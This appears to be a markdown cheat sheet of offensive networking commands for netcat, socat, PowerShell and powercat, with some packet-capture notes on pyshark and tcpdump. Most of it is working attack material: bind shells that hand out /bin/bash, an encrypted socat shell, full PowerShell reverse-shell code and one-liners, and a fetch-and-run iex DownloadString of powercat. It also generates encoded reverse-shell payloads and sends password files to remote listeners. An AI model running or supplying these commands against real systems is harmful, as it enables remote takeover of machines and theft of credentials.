

# Netcat

```bash
connect to somewhere:   nc [-options] hostname port[s] [ports] ... 
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
        -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
```

### Transferring Files

**Sending File**

```bash
nc -nv <ip> <port> < <file>

-- example
nc -nv 127.0.0.1 4444 < userpassword.txt
```

**Receiving File**

```bash
nc -nlvp <port> > <file>

-- example
nc -nlvp 4444 > got_userpassword.txt
```

### Remote Administration

**Bind Shell**

```bash
nc -nv <ip> <port> -e /bin/bash
```

**Reverse Shell**

```bash
nc -nlvp <port>				# simple accept connection at specifed port
```

------

# Socat

```bash
socat [options] <bi-address> <bi-address>
   options:
      -V     print version and feature information to stdout, and exit
      -h|-?  print a help text describing command line options and addresses
      -hh    like -h, plus a list of all common address option names
      -hhh   like -hh, plus a list of all available address option names
      -d[ddd]         increase verbosity (use up to 4 times; 2 are recommended)
      -D     analyze file descriptors before loop
      -ly[facility]  log to syslog, using facility (default is daemon)
      -lf<logfile>   log to file
      -ls            log to stderr (default if no other log)
      -lm[facility]  mixed log mode (stderr during initialization, then syslog)
      -lp<progname>  set the program name used for logging
      -lu            use microseconds for logging timestamps
      -lh            add hostname to log messages
      -v     verbose text dump of data traffic
      -x     verbose hexadecimal dump of data traffic
      -r <file>      raw dump of data flowing from left to right
      -R <file>      raw dump of data flowing from right to left
      -b<size_t>     set data buffer size (8192)
      -s     sloppy (continue on error)
      -t<timeout>    wait seconds before closing second channel
      -T<timeout>    total inactivity timeout in seconds
      -u     unidirectional mode (left to right)
      -U     unidirectional mode (right to left)
      -g     do not check option groups
      -L <lockfile>  try to obtain lock, or fail
      -W <lockfile>  try to obtain lock, or wait
      -4     prefer IPv4 if version is not explicitly specified
      -6     prefer IPv6 if version is not explicitly specified
```

### Remote connection

**Connect to Remote**

```python
socat - TCP4:<remote-ip>:<port>

-- example
socat - TCP4:127.0.0.1:4444
```

**Accept Connection**

```python
socat TCP4-LISTEN:<port> STDOUT

-- example
socat TCP4-LISTEN:4444 STDOUT
```

### Transferring Files

**Sending File**

```python
socat TCP4-LISTEN:<port>,fork file:<file>

-- example
socat TCP4-LISTEN:4444,fork file:secret_passwords.txt
```

**Receiving File**

```python
socat TCP4:<ip>:<port> file:<file>,create

-- example
socat TCP4:127.0.0.1:4444 file:received_secret_passwords.txt,create
```

### Remote Administration

**Bind Shell**

```python
socat TCP4:<ip>:<port> EXEC:/bin/bash
```

**Reverse Shell**

```python
socat -d -d TCP4-LISTEN:<port> STDOUT			# simple accept connection at specifed port
```

### Encrypted Remote Administration

**Bind Shell**

```bash
openssl
    req : initiate a new certificate signing request
    -newkey : generate a new private key
    rsa:2048 : use RSA encryption with a 2,048-bit key length.
    -nodes : store the private key without passphrase protection
    -keyout : save the key to a file
    -x509 : output a self-signed certificate instead of a certificate request
    -days : set validity period in days
    -out : save the certificate to a file

------

openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt				# Generate Encryption Key

cat bind_shell.key bind_shell.crt > bind_shell.pem

socat OPENSSL-LISTEN:<port>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

**Reverse Shell**

```python
socat - OPENSSL:<port>,verify=0			# simple accept openssl connection at specifed port
```

-----

# PowerShell

```powershell
Set-ExecutionPolicy Unrestricted			# Allow Execution 
Get-ExecutionPolicy							# Check Execution permissions
```

### Transferring Files

**Copy File**

```powershell
$session = New-PSSession -HostName <ip> -UserName <username>
>>> prompt password

Copy-Item <source> <destination> -ToSession $session
```

**Receiving File**

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('<url>','<output-path>')"
```

### Remote Administration

**Bind Shell**

```bash
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<port>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

**Reverse Shell Code**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<ip-address>',<port>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

**Reverse Shell One Liner**

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip-address>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush(); }$client.Close();"
```

------

# Powercat

**Source URL**

```http
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
```

**To download in windows machine**

```powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

**Generate Encoded Powershell Payload**

```powershell
-- example
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

------

# Wireshark




**Command Line Tools** - `tshark`, `termshark`

**Python Library** - `pyshark`

```python
import pyshark

pyshark.FileCapture('<file-name>')				# Open captured pcap files
pyshark.LiveCapture('<file-name>')				# Capture At live
sniff_continuously(packet_count=<count>)		# Object method

<dictionary>


-- example code
import pyshark
capture = pyshark.LiveCapture(interface='eth0')
for packet in capture.sniff_continuously(packet_count=50):
    myfile = open('pyshark1.txt','w')
    myfile.write(str(packet))
    try:
        print('Source = ' + packet['ip'].src)
        print('Destination = ' + packet['ip'].dst)
    except:
        pass
print ('The end')
exit()
```

------

# Tcpdump

**To capture packets read captured files.**

```bash
SYNOPSIS
       tcpdump [ -AbdDefhHIJKlLnNOpqStuUvxX# ] [ -B buffer_size ]
               [ -c count ] [ --count ] [ -C file_size ]
               [ -E spi@ipaddr algo:secret,...  ]
               [ -F file ] [ -G rotate_seconds ] [ -i interface ]
               [ --immediate-mode ] [ -j tstamp_type ] [ -m module ]
               [ -M secret ] [ --number ] [ --print ] [ -Q in|out|inout ]
               [ -r file ] [ -s snaplen ] [ -T type ] [ --version ]
               [ -V file ] [ -w file ] [ -W filecount ] [ -y datalinktype ]
               [ -z postrotate-command ] [ -Z user ]
               [ --time-stamp-precision=tstamp_precision ]
               [ --micro ] [ --nano ]
               [ expression ]
```

```bash
OPTIONS 
	
	   -A Print each packet (minus its link level header) in ASCII.  
       -C file_size Before writing a raw packet to a savefile.
       -d Dump the compiled packet-matching code in a human readable form to standard output and stop. 
       -e Print the link-level header on each dump line. 
       -f Print `foreign' IPv4 addresses numerically rather than symbolically 
       -F file Use file as input for the filter expression. 
       -I --monitor-mode 
       	  --immediate-mode 
```

------

